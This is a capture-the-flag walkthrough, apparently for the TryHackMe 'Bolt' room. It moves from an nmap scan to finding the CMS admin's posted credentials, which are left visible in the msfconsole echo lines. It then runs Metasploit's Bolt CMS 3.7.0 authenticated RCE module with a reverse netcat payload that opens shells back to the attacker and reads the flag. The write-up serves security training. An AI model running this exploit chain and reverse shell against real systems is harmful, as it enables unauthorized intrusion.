


# TryHackMe | [Bolt](https://tryhackme.com/room/bolt)

## Deploy the machine

Time to hack our way into the machine

## What port number has a web server with a CMS running?

First we do a nmap scan on our target

```bash
❯ nmap -A -v 10.10.4.198
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-06 18:14 IST
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 18:14
Completed NSE at 18:14, 0.00s elapsed
Initiating NSE at 18:14
Completed NSE at 18:14, 0.00s elapsed
Initiating NSE at 18:14
Completed NSE at 18:14, 0.00s elapsed
Initiating Ping Scan at 18:14
Scanning 10.10.4.198 [2 ports]
Completed Ping Scan at 18:14, 0.15s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:14
Completed Parallel DNS resolution of 1 host. at 18:14, 0.00s elapsed
Initiating Connect Scan at 18:14
Scanning 10.10.4.198 [1000 ports]
Discovered open port 80/tcp on 10.10.4.198
Discovered open port 22/tcp on 10.10.4.198
Discovered open port 8000/tcp on 10.10.4.198
Completed Connect Scan at 18:14, 8.17s elapsed (1000 total ports)
Initiating Service scan at 18:14
Scanning 3 services on 10.10.4.198
Completed Service scan at 18:14, 24.28s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.4.198.
Initiating NSE at 18:14
Completed NSE at 18:14, 4.40s elapsed
Initiating NSE at 18:14
Completed NSE at 18:14, 0.60s elapsed
Initiating NSE at 18:14
Completed NSE at 18:14, 0.00s elapsed
Nmap scan report for 10.10.4.198
Host is up (0.15s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:85:ec:54:f2:01:b1:94:40:de:42:e8:21:97:20:80 (RSA)
|   256 77:c7:c1:ae:31:41:21:e4:93:0e:9a:dd:0b:29:e1:ff (ECDSA)
|_  256 07:05:43:46:9d:b2:3e:f0:4d:69:67:e4:91:d3:d3:7f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
8000/tcp open  http    (PHP 7.2.32-1)
|_http-generator: Bolt
|_http-title: Bolt | A hero is unleashed
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 Not Found
|     Date: Sat, 06 Aug 2022 12:44:40 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: private, must-revalidate
|     Date: Sat, 06 Aug 2022 12:44:40 GMT
|     Content-Type: text/html; charset=UTF-8
|     pragma: no-cache
|     expires: -1
|     X-Debug-Token: 2b23c3
|     <!doctype html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     </head>
|     <body>
|     href="#main-content" class="vis
|   GetRequest:
|     HTTP/1.0 200 OK
|     Date: Sat, 06 Aug 2022 12:44:40 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: public, s-maxage=600
|     Date: Sat, 06 Aug 2022 12:44:40 GMT
|     Content-Type: text/html; charset=UTF-8
|     X-Debug-Token: 0e6058
|     <!doctype html>
|     <html lang="en-GB">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     <link rel="canonical" href="http://0.0.0.0:8000/">
|     </head>
|_    <body class="front">
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.92%I=7%D=8/6%Time=62EE6238%P=x86_64-pc-linux-gnu%r(Get
SF:Request,29E1,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Sat,\x2006\x20Aug\x202
SF:022\x2012:44:40\x20GMT\r\nConnection:\x20close\r\nX-Powered-By:\x20PHP/
SF:7\.2\.32-1\+ubuntu18\.04\.1\+deb\.sury\.org\+1\r\nCache-Control:\x20pub
SF:lic,\x20s-maxage=600\r\nDate:\x20Sat,\x2006\x20Aug\x202022\x2012:44:40\
SF:x20GMT\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\nX-Debug-Token
SF::\x200e6058\r\n\r\n<!doctype\x20html>\n<html\x20lang=\"en-GB\">\n\x20\x
SF:20\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20charset=\"ut
SF:f-8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20name=\"viewport\"\x20c
SF:ontent=\"width=device-width,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<title>Bolt\x20\|\x20A\
SF:x20hero\x20is\x20unleashed</title>\n\x20\x20\x20\x20\x20\x20\x20\x20<li
SF:nk\x20href=\"https://fonts\.googleapis\.com/css\?family=Bitter\|Roboto:
SF:400,400i,700\"\x20rel=\"stylesheet\">\n\x20\x20\x20\x20\x20\x20\x20\x20
SF:<link\x20rel=\"stylesheet\"\x20href=\"/theme/base-2018/css/bulma\.css\?
SF:8ca0842ebb\">\n\x20\x20\x20\x20\x20\x20\x20\x20<link\x20rel=\"styleshee
SF:t\"\x20href=\"/theme/base-2018/css/theme\.css\?6cb66bfe9f\">\n\x20\x20\
SF:x20\x20\t<meta\x20name=\"generator\"\x20content=\"Bolt\">\n\x20\x20\x20
SF:\x20\t<link\x20rel=\"canonical\"\x20href=\"http://0\.0\.0\.0:8000/\">\n
SF:\x20\x20\x20\x20</head>\n\x20\x20\x20\x20<body\x20class=\"front\">\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20<a\x20")%r(FourOhFourRequest,16C3,"HTTP/1\
SF:.0\x20404\x20Not\x20Found\r\nDate:\x20Sat,\x2006\x20Aug\x202022\x2012:4
SF:4:40\x20GMT\r\nConnection:\x20close\r\nX-Powered-By:\x20PHP/7\.2\.32-1\
SF:+ubuntu18\.04\.1\+deb\.sury\.org\+1\r\nCache-Control:\x20private,\x20mu
SF:st-revalidate\r\nDate:\x20Sat,\x2006\x20Aug\x202022\x2012:44:40\x20GMT\
SF:r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\npragma:\x20no-cache\
SF:r\nexpires:\x20-1\r\nX-Debug-Token:\x202b23c3\r\n\r\n<!doctype\x20html>
SF:\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x20
SF:<meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-
SF:scale=1\.0\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20<title>Bolt\x20\|\x20A\x20hero\x20is\x20unleashed</title>\n\x20
SF:\x20\x20\x20\x20\x20\x20\x20<link\x20href=\"https://fonts\.googleapis\.
SF:com/css\?family=Bitter\|Roboto:400,400i,700\"\x20rel=\"stylesheet\">\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/t
SF:heme/base-2018/css/bulma\.css\?8ca0842ebb\">\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/theme/base-2018/css/theme
SF:\.css\?6cb66bfe9f\">\n\x20\x20\x20\x20\t<meta\x20name=\"generator\"\x20
SF:content=\"Bolt\">\n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20<body>\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20<a\x20href=\"#main-content\"\x20class=\"vi
SF:s");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 18:14
Completed NSE at 18:14, 0.00s elapsed
Initiating NSE at 18:14
Completed NSE at 18:14, 0.00s elapsed
Initiating NSE at 18:14
Completed NSE at 18:14, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.27 seconds

```

Port 8000 it is then

## What is the username we can find in the CMS?

Lets navigate over to port 8000 and see what's going on there

```
Hello Everyone,

Welcome to this site, myself Jake and my username is [REDACTED] .I am still new to this CMS so it can take awhile for me to get used to this CMS but believe me i have some great content coming up for you all!

Regards,

Jake (Admin)
```

Jake's pretty new to this and this shows. Bolt's pretty cute tho.

## What is the password we can find for the username?

```
Message for IT Department

Hey guys,

i suppose this is our secret forum right? I posted my first message for our readers today but there seems to be a lot of freespace out there. Please check it out! my password is [DATA EXPUNGED] just incase you need it!

Regards,

Jake (Admin)
```

No Jake, this is no longer a secret forum.

## What version of the CMS is installed on the server? (Ex: Name 1.1.1)

We'll map the network with gobuster.

Turns out the login page for boltCMS is located at /bolt/login



We'll put in the username and password that Jake has so kindly provided to us.



We're in I guess. The version number is in the bottom left corner of the dashboard.

## There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID?

```bash
❯ searchsploit bolt
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Apple WebKit - 'JSC::SymbolTableEntry::isWatchable' Heap Buffer Overflow           | multiple/dos/41869.html
Bolt CMS 3.6.10 - Cross-Site Request Forgery                                       | php/webapps/47501.txt
Bolt CMS 3.6.4 - Cross-Site Scripting                                              | php/webapps/46495.txt
Bolt CMS 3.6.6 - Cross-Site Request Forgery / Remote Code Execution                | php/webapps/46664.html
Bolt CMS 3.7.0 - Authenticated Remote Code Execution                               | php/webapps/48296.py
Bolt CMS < 3.6.2 - Cross-Site Scripting                                            | php/webapps/46014.txt
Bolthole Filter 2.6.1 - Address Parsing Buffer Overflow                            | multiple/remote/24982.txt
BoltWire 3.4.16 - 'index.php' Multiple Cross-Site Scripting Vulnerabilities        | php/webapps/36552.txt
BoltWire 6.03 - Local File Inclusion                                               | php/webapps/48411.txt
Cannonbolt Portfolio Manager 1.0 - Multiple Vulnerabilities                        | php/webapps/21132.txt
CMS Bolt - Arbitrary File Upload (Metasploit)                                      | php/remote/38196.rb
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Searching on the exploit-db website works too I guess.

## Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....)

Inside msfconsole, doing a search for bolt gives us the path of the exploit.

```bash
msf6 > search bolt

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/webapp/bolt_authenticated_rce  2020-05-07       excellent  Yes    Bolt CMS 3.7.0 - Authenticated Remote Code Execution
   1  exploit/multi/http/bolt_file_upload         2015-08-17       excellent  Yes    CMS Bolt File Upload Vulnerability


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/http/bolt_file_upload

```

## Set the LHOST, LPORT, RHOST, USERNAME, PASSWORD in msfconsole before running the exploit

```bash
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set LHOST tun0
LHOST => tun0
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set RHOST 10.10.4.198
RHOST => 10.10.4.198
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set username [REDACTED]
username => bolt
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set password [REDACTED]
password => boltadmin123
msf6 exploit(unix/webapp/bolt_authenticated_rce) > exploit
s
[*] Started reverse TCP handler on [DATA EXPUNGED]:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "nrth".
[*] Found 2 potential token(s) for creating .php files.
[+] Used token 39fdb0a235329f9d6034b9bfdb to create xxvsuwoj.php.
[*] Attempting to execute the payload via "/files/xxvsuwoj.php?nrth=`payload`"
[*] Command shell session 1 opened ([DATA EXPUNGED]:4444 -> 10.10.4.198:57696) at 2022-08-06 18:33:35 +0530
[!] No response, may have executed a blocking payload!
[+] Deleted file xxvsuwoj.php.
[+] Reverted user profile back to original state.

[*] Command shell session 2 opened ([DATA EXPUNGED]:4444 -> 10.10.4.198:57698) at 2022-08-06 18:33:39 +0530

```

## Look for flag.txt inside the machine.

We find the flag inside the remote machine.

```bash
find / -name flag.txt 2>/dev/null
/home/flag.txt
```

It's in /home/flag.txt

```bash
cat /home/flag.txt
[DATA EXPUNGED]

```

There it is. .We came. We saw. We got the flag. Until next time.
